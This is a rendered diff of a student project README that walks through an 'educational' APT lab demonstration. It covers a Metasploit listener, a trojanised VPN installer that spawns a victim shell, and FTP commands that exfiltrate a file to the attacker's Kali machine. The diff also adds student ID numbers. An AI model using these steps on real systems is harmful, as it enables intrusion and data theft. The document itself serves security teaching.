

Before and after one commit to Pranauv-Kumar1803/ICS, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/README.md
+++ b/README.md
@@ -11,10 +11,10 @@ Note: This is only for educational purposes!
 
 ## Project Contributors
 
-- Pranauv Kumar
-- Rahul Aggarwal
-- Sai Swetha M
-- Anurag Yadav
+- Pranauv Kumar - S20210010186
+- Rahul Agarwal - S20210010187
+- Sai Swetha M - S20210010143
+- Anurag Yadav - S20210010026
 
 ## Some Information on APT
 
@@ -81,16 +81,15 @@ set lport 4443
 exploit
 ```
 
-Now that the listener is up and running in the Kali, we go for the Ubuntu.
+Now that the listener is up and running in the Kali, we go for Ubuntu.
 
-From here, we access the SmartVPN website that is hosted on port 8000 of 192.168.100.4 and download the vpn setup from the website and we run it!
+From here, we access the SmartVPN website that is hosted on "192.168.100.4:8000" and download the vpn setup from the website and we run it!
 
-Boom!
+Boom! Now, we have a hit in Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!
 
-Now, we have a hit in the Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!
+After this, to just show the data exfiltration part, we use FTP to connect to the attacker's computer from the victim's shell in the msfconsole to exfiltrate some data (some random dummy.pdf files from victim's computer)
 
-After this, to just show the data exfiltration part, we use FTP to connect from the victim's shell to the attacker's computer to exfiltrate some data (some random dummy.pdf files from victim's computer)
-to do this, type the fllg in the shell spawned in the Kali,
+To do this, type the following in the shell spawned in the Kali Linux's Msfconsole,
 
 ```bash
 shell
@@ -99,6 +98,6 @@ ftp 192.168.100.4  #and enter kali's ftp password when prompted
 put dummy.pdf ./   #to transfer dummy.pdf from victim's to attacker's computer
 ```
 
-put command here sees the dummy.pdf in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.
+"put" command of FTP, sees the "dummy.pdf" in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.
 
-Now we are done with the whole demonstration!
+Hence, we are done with the whole demonstration of APT!
````
